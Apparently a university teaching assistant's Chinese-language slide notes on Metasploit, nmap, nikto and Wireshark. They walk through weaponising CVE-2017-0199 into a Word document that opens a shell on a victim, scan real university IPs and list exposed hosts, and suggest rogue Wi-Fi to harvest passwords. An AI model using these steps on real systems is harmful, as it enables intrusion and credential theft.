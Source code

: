 ```yaml
---
title: 107 雜七雜八工具
tags: 大學 , 助教 , 安全程式
---
```


---

# 雜七雜八工具

---

## msfconsole

---

快速安裝
```
wget https://downloads.metasploit.com/data/releases/metasploit-latest-linux-x64-installer.run && wget https://downloads.metasploit.com/data/releases/metasploit-latest-linux-x64-installer.run.sha1 && echo $(cat metasploit-latest-linux-x64-installer.run.sha1)'  'metasploit-latest-linux-x64-installer.run > metasploit-latest-linux-x64-installer.run.sha1 && shasum -c metasploit-latest-linux-x64-installer.run.sha1 && chmod +x ./metasploit-latest-linux-x64-installer.run && sudo ./metasploit-latest-linux-x64-installer.run
```
![](https://i.imgur.com/lBSZ5jN.png)


---

他是一個包好的漏洞攻擊程式
1. 選擇攻擊方式
2. 選擇目標
3. 開始攻擊
4. 成功吐出shell或結果

---

你相信
你打開一個word檔
我就可以控制你的電腦
這病毒用msfconsole製作很簡單

---

安裝好我們先右鍵打開bash
輸入
```
$ msfconsole
```
![](https://i.imgur.com/XUq117b.png)

---

進來之後 我們就是
![](https://i.imgur.com/nMngBZg.png)


---

我們先要選擇用什麼漏洞
我們示範用word [漏洞介紹](https://www.anquanke.com/post/id/85873)
他是CVE-2017-0199
所以先搜尋資料庫
```
> search CVE-2017-0199
```


---

我們可以看到搜尋結果
![](https://i.imgur.com/Dm47rJC.png)

---

我們把name複製起來 下
使用這個漏洞
```
> use exploit/windows/fileformat/office_word_hta
```
在下 看有什麼東西要設定
```
> options
```
![](https://i.imgur.com/ronxYN9.png)

---

如果要改設定用
```
>set 名稱 參數
>set SRVPORT 8000
```
![](https://i.imgur.com/3y6xKPE.png)

---

設定完下 run
我們可以看到他把不太好的doc檔存在那裡
```
> run
```
![](https://i.imgur.com/zpauJih.png)

---

看你要用什麼方法都可以把檔案丟到windows上
然後打開 我們會看到 有人連上
![](https://i.imgur.com/g0l9l7a.png)


---

我們查看所有連上的人
``` 
sessions -l
```
<!--![](https://i.imgur.com/PY0HyL3.png)-->
![](https://i.imgur.com/ed7JCfe.png)


---

我們輸入
```
sessions -i 1
shell
```
就可以拿到被害者電腦的bash

![](https://i.imgur.com/5zLKqAU.png)
<!--![](https://i.imgur.com/ywV25Ah.png)-->

---


# namp 

---

他是一個掃ip 哪些port開啟
並顯示出來
```
nmap ip -p 掃哪些port 
nmap 140.134.208.99-100 
```
![](https://i.imgur.com/ox3mXXs.png)

---

如果沒設定 -p 0-65535 他不會掃全部的port
```
namp 140.134.208.99 -p  0-65535 
```
![](https://i.imgur.com/oa300DY.png)

---

能幹嘛 
~~能掃到很多免費印表機~~
http://140.134.23.24
http://140.134.24.98
還有很多五四三的東西
http://140.134.107.166:8080/cgi-bin/

---

# nikto

---

安裝
`sudo apt-get install nikto`

---

> Nikto是一款開源的（GPL）網頁伺服器掃描器，它可以對網頁伺服器進行全面的多種掃描，包含超過3300種有潛在危險的文件／CGIs；超過625種伺服器版本；超過230種特定伺服器問題。掃描項和插件可以自動更新（如果需要）。基於Whisker/libwhisker完成其底層功能。這是一款非常棒的工具，但其軟體本身並不經常更新，最新和最危險的可能檢測不到。

---

簡單來說它是一個很神奇的弱掃工具(一樣在kali裡有裝)

---

使用方法
```
$ nikto -h 網址 -o 輸出檔案(不選擇輸出在終端機上)
$ nikto -h https://innopac.lib.fcu.edu.tw/ -o result.html
```
![](https://i.imgur.com/g0tNJTb.png)


---

輸出檔案長這樣
![](http://topspeedsnail.com/images/2016/5/Screenshot%20from%202016-05-17%2015-54-07.png)

---

至於伺服器那邊會長者樣呢?
被掃爆
![](https://i.imgur.com/zgIwmds.png)

---

此時掛上 cloudflare
完全沒有異常流量
![](https://i.imgur.com/brWnNBX.png)



---

# Wireshark

---

他是什麼？
他可以把所有經過你網路介面的封包顯示出來

---

我們先打開來
![](https://i.imgur.com/bB25act.png)

---

這是所有經過你網路卡的封包
![](https://i.imgur.com/V1Onq5n.png)

---

我們隨便登入一個沒有https加密的網頁做登入
[learningportfol](http://learningportfolio.fcu.edu.tw/tw/index.aspx)
![](https://i.imgur.com/4D9NDRI.jpg)

---

我們搜尋 http
並找到右邊有post的
![](https://i.imgur.com/3kDQv1b.png)

---

雙擊點開 往下看
![](https://i.imgur.com/7j4Lh7B.png)

---

所以我們只要自己用電腦架設wifi
讓別人連上 我們就可以取得別人的帳密了（？）

---